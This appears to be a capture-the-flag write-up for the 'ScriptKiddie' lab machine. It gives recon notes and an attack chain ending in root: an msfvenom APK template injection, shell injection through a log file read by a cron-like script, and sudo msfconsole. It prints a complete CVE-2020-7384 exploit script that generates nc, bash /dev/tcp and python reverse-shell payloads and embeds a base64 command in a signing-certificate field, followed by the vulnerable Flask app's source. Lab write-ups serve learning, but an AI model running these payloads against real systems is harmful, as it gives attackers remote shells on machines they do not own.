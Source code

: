 # <span style="color:#3333FF">Machine #24 ScriptKiddie</span>  


## <span style="color:#3333FF">Checklist 🤓   

- [ ] Command injection in the `searchsploit` entry ( If I can evade the validation that is clearly set there).
- [ ] Code injection on either the payload or the nmap entries because they seem to be more of pure python than just os commands.
- [x] Vulnerability of the Werkzeug version we have ( But it needs DEBUG to be enabled and we don't have that).
- [ ] Look more into the msfvenom download a template thing. What does it mean? what is done with the file exactly in the backend.
- [ ] Research how to implement msfvenom using Python.

<br/><br/>


## <span style="color:#3333FF">What Do We Have? 🤔🤔 

* We have a web server on port 5000 that seems to be a tool for "hacking". It has:  
  * An nmap scanner (which could be implemented using a python library called `nmap` or sth similar to that).
  * An msfvenom payload creator which creates reverse shells that are valid for only 5 minutes. I can only make rev shells for Windows and Android, I can't seem to be able to make a rev shell for Linux eventho I'm not sure how vulnerable the machine would be if it already had a rev shell on it. The only thing I could think of is if I was able to execute the file that's a different story but the only path I had to the file is a path that forces me to download the file instead of opening it on the server.
  * A searchsploit tool that seems to be well validated for any use of special characters which limits my attempts to inject commands there.
  * In the msfvenom tool I have the ability to download a template (I'm not sure what that means I should look more into it).  
  * I seem to be able to open files on the service but not directories which means there's no directory traversal (I think).
  * This could be a password `OptString.new('PASS', [true, "The password to authenticate with", "nagiosadmin"]),`
<br/><br/>


## <span style="color:#3333FF">Random Notes👀
  
* The web server being used and the language version 
```
Werkzeug/0.16.1 Python/3.8.5
```   

* Scanlosers.sh seems to be exected when I use searchsploit to scan.  

<br/><br/>  


## <span style="color:#3333FF">How Did I Own This Shit 😎🥳  

1. Found an exploit for a specific version of msfvenom that is vulnerable to an RCE when we download a template apk file for an Android reverse shell (I'm not sure what the the apk code has exactly ).
2. So having an upload template option that uses msfvenom command after submitting it looked fitting to try with this vulnerability even when I wasn't sure of the msfvenom's version.
3. It worked and I got user shell.
4. It seemed that user pwn is promising so I easily injected a reverse shell in the `scanlosers.sh` file that didn't really have any validations and it executed when I tried to `searchsploit` on the website. What it does is try to scan "hackers'" ips from the log file "hackers" so I just injected the reverse shell inside the hackers file and it instantly executed the reverse shell and I got pwn.
5. Pwn seemed to have a sudo to `msfconsole` which gave me shell as root just by simply running it with the sudo command.  

<br/><br/>

## <span style="color:#3333FF">Writeups ✍🏽📓   


<br/><br/> 


```bash
echo -e "\n\x1B[31mCVE-2020-7384\e[0m"

echo -e "\nEnter the LHOST: "
read lhost
echo -e "\nEnter the LPORT: "
read lport

echo -e "\nSelect the payload type\n1. nc\n2. bash\n3. python\n4. python3\n"

read -p "select: " -e select
case $select in  
  1|nc) pyld="mkfifo /tmp/nbnvdoi; nc $lhost $lport 0</tmp/nbnvdoi | /bin/sh >/tmp/nbnvdoi 2>&1; rm /tmp/nbnvdoi" ;; 
  2|bash) pyld="/bin/bash -c \"/bin/bash -i >& /dev/tcp/$lhost/$lport 0>&1\"" ;;
  3|python) pyld="python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"$lhost\",$lport));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" ;; 
  4|python3) pyld="python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"$lhost\",$lport));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" ;; 
esac


payload="mkfifo /tmp/nbnvdoi; nc $lhost $lport 0</tmp/nbnvdoi | /bin/sh >/tmp/nbnvdoi 2>&1; rm /tmp/nbnvdoi"
payload_b64=$(echo $payload | base64 -w 0)
dname="CN='|echo $payload_b64 | base64 -d | sh #"

echo -e "\nEnter the Directory (absolute path) where you would like to save the apk file (Hit Enter to use the current directory): "
read directory

if [ -z "$directory" ]
then
      directory=$(pwd)
fi

cd $directory

rm signing.keystore 2> /dev/null
rm emptyfile 2> /dev/null
rm exploit.apk 2> /dev/null

# Touch empty_file
touch emptyfile

# Create apk_file
zip -j exploit.apk emptyfile

# Generate signing key with malicious -dname"
keytool -genkey -keystore signing.keystore -alias signing.key -storepass password -keypass password -keyalg RSA -keysize 2048 -dname "$dname"

# Sign APK using our malicious dname
jarsigner -sigalg SHA1withRSA -digestalg SHA1 -keystore signing.keystore -storepass password -keypass password exploit.apk signing.key && echo -e "\nNew APK file Generated\nLocation: \"$(pwd)/exploit.apk\"\n\nThe APK file generated could be now uploaded or used for exploitation\n\nIf you have access to the vulnerable machine then run:\nmsfvenom -x <your newly created apk> -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null\n" || echo -n "\nSomething Went Wrong !!!\n"


```


```python
import datetime
import os
import random
import re
import subprocess
import tempfile
import time
from flask import Flask, render_template, request
from hashlib import md5
from werkzeug.utils import secure_filename


regex_ip = re.compile(r'^(?:(?:25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.){3}(?:25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$')
regex_alphanum = re.compile(r'^[A-Za-z0-9 \.]+$')
OS_2_EXT = {'windows': 'exe', 'linux': 'elf', 'android': 'apk'}

app = Flask(__name__)


@app.route('/', methods=['GET','POST'])
def index():
    if request.method == 'GET' or not 'action' in request.form:
        return render_template('index.html')
    elif request.form['action'] == 'scan':
        return scan(request.form['ip'])
    elif request.form['action'] == 'generate':
        return venom(request)
    elif request.form['action'] == 'searchsploit':
        return searchsploit(request.form['search'], request.remote_addr)
    print("no valid action")
    return request.form


def scan(ip):
    if regex_ip.match(ip):
        if not ip == request.remote_addr and ip.startswith('10.10.1') and not ip.startswith('10.10.10.'):
            stime = random.randint(200,400)/100
            time.sleep(stime)
            result = f"""Starting Nmap 7.80 ( https://nmap.org ) at {datetime.datetime.utcnow().strftime("%Y-%m-%d %H:%M")} UTC\nNote: Host seems down. If it is really up, but blocking our ping probes, try -Pn\nNmap done: 1 IP address (0 hosts up) scanned in {stime} seconds""".encode()
        else:
            result = subprocess.check_output(['nmap', '--top-ports', '100', ip])
        return render_template('index.html', scan=result.decode('UTF-8', 'ignore'))
    return render_template('index.html', scanerror="invalid ip")


def searchsploit(text, srcip):
    if regex_alphanum.match(text):
        result = subprocess.check_output(['searchsploit', '--color', text])
        return render_template('index.html', searchsploit=result.decode('UTF-8', 'ignore'))
    else:
        with open('/home/kid/logs/hackers', 'a') as f:
            f.write(f'[{datetime.datetime.now()}] {srcip}\n')
        return render_template('index.html', sserror="stop hacking me - well hack you back")


def venom(request):
    errors = []
    file = None
    if not 'lhost' in request.form:
        errors.append('lhost missing')
    else:
        lhost = request.form['lhost']
        if not regex_ip.match(lhost):
            errors.append('invalid lhost ip')
    if not 'os' in request.form:
        errors.append('os missing')
    else:
        tar_os = request.form['os']
        if tar_os not in ['windows', 'linux', 'android']:
            errors.append(f'invalid os: {tar_os}')
    if 'template' in request.files and request.files['template'].filename != '':
        file = request.files['template']
        if not ('.' in file.filename and file.filename.split('.')[-1] == OS_2_EXT[tar_os]):
            errors.append(f'{tar_os} requires a {OS_2_EXT[tar_os]} ext template file')
        else:
            template_name = secure_filename(file.filename)
            template_ext = file.filename.split('.')[-1]
            template_file = tempfile.NamedTemporaryFile('wb', suffix='.'+template_ext)
            file.save(template_file.name)
    else:
        template_name = "None"

    if errors:
        return render_template('index.html', payloaderror='<br/>\n'.join(errors))

    payload = f'{tar_os}/meterpreter/reverse_tcp'
    outfilename = md5(request.remote_addr.encode()).hexdigest()[:12] + '.' + OS_2_EXT[tar_os]
    outfilepath = os.path.join(app.root_path, 'static', 'payloads', outfilename)

    try:
        if file:
            print(f'msfvenom -x {template_file.name} -p {payload} LHOST={lhost} LPORT=4444')
            result = subprocess.check_output(['msfvenom', '-x', template_file.name, '-p',
                payload, f'LHOST={lhost}', 'LPORT=4444',
                '-o', outfilepath])
            template_file.close()
        else:
            result = subprocess.check_output(['msfvenom', '-p', payload,
                f'LHOST={lhost}', 'LPORT=4444', '-o', outfilepath])
    except subprocess.CalledProcessError:
        return render_template('index.html', payloaderror="Something went wrong")

    
    return render_template('index.html', payload=payload, lhost=lhost,
            lport=4444, template=template_name, fn=outfilename)


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

